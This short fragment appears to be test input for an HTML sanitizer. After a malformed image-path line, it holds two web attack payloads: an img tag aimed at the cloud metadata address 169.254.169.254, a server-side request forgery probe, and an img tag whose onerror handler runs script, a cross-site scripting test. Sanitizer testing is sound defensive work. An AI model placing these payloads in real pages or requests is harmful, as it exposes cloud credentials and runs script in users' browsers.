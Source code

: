 <img src="http://169.254.169.254/latest/"></img>
<img style="max-width: 100%;" src="x" onerror="print(1)">
